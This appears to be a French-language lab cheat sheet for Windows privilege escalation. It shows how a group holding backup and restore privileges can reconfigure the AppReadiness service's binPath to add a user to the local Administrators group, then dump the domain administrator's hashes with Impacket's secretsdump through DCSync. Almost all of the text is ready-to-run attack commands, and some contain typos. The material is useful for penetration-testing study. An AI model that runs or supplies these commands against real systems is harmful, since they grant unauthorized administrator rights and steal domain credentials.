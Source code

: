 
> [!TIP]
> Les membres de ce groupe ont les droits  `SeBackupPrivilege` et `SeRestorePrivilege`

```
whoami /groups
```

```
wwhoami /priv
```


### 1. Vérifier que le service AppReadinesss se lance en tant que SYSTEM

```cmd
sc qc AppReadiness
```

## PSService (Sysinternals)

https://learn.microsoft.com/en-us/sysinternals/downloads/psservice

### 2. Verifier les permissions sur le service

```cmd-session
c:\Tools\PsService.exe security AppReadiness
```

### 3. Vérifier les membres du groupe Administrateur Local

```cmd
 net localgroup Administrators
```

### 4. Modifier le service Binary Path

```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

### 5. Lancer le service

Erreur normal puisque le path est erroné

```cmd-session
sc start AppReadiness
```


### 6. Confirmer l'ajout au groupe Administrateur local

```cmd-session
net localgroup Administrators
```

Runas pour recharger la session avec les droits

```
runas /netonly /user:server_adm "cmd.exe"
```


### 7. DCSync avec Impacket

```shell
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

